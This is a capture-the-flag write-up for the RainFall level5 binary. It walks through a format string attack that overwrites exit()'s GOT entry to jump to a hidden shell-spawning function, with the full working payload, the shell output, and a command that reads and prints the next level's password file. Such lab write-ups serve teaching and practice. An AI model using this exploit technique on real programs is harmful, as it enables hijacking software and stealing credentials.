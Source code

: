 The binary reads user input, prints it with printf, and eventually calls exit(). The goal is to hijack the control flow and get it to call a hidden function o(), which spawns a shell. We exploit a format string vulnerability to overwrite the GOT entry of exit() with the address of o().

Step 1: Understand the Functions
There is a hidden function o() that runs system("/bin/sh"):
0x080484a4 <o>:  call 0x80483b0 <system@plt>

This function is not called normally, but we want to execute it. How?

The function exit() is called at the end of execution. If we overwrite the GOT entry of exit() with the address of o(), then when exit() is called, it will jump into o() and give us a shell!

The GOT, or Global Offset Table, is a critical data structure used in programs compiled with dynamic linking (e.g., programs that use shared libraries like libc.so). It helps the program find and call functions that are located in shared libraries (like printf, exit, system, etc.) at runtime rather than at compile time.

Step 2: Find the GOT Address of exit() and Address of o()
We use objdump -R to find the GOT entries:
The -R option tells objdump to display the relocation table of a binary

```
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

The GOT entry for exit() is at 0x08049838.

We use GDB to find the address of o():
```
(gdb) info functions o
0x080484a4  o
```
So we want to write 0x080484a4 into 0x08049838 using a format string.

Important Clarification: PLT vs GOT
You may see exit@plt like this:
0x080483d0 <exit@plt>
But this is not the GOT entry.

What's the Difference?
exit@plt (e.g., 0x080483d0) is code — a trampoline that jumps to the GOT address.
exit@got (e.g., 0x08049838) is data — a pointer used by the PLT trampoline.

We want to overwrite the GOT entry, not the PLT stub.

Step 3: Format String Exploit Strategy
We’ll perform a format string attack to write the address of o() (0x080484a4) into the GOT entry of exit() (0x08049838).

1. Leak the stack with %x
We first find where our input appears on the stack:
```
python -c 'print "aaaa " + " %x" * 15' > /tmp/exploit
cat /tmp/exploit | ./level5
We see 61616161 (hex of aaaa) in the output — let’s say at position 4.
```

2. Use %n to write
%n writes the number of characters printed so far to a given memory address.
Address of exit() GOT: 0x08049838 → bytes: \x38\x98\x04\x08
Value to write: 0x080484a4 → decimal: 134513828
So we craft input like:
```
print "\x38\x98\x04\x08" + "%134513824d%4$n"
We subtract 4 because 4 bytes were already written when printing the address bytes.
```

Final Exploit
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
cat /tmp/exploit | ./level5
                                                512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
